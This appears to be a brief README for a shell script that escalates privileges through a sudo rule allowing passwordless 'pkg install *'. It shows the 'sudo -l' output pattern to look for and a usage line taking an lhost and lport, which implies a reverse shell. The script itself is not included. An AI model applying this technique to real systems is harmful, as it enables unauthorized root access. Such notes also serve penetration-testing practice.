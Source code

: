 # pkg_privilege_escalation_script
shellscript for pkg_privilege_escalation

sudo -l

->
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *

if ge situation like a adove, when pressed "sudo -l"

then exploitable in this script,,, maybe


usage:
    
    ./pkg_priv_esc.sh <lhost> <lport>
    
 
 Don't forget "chmod +x" before execute 
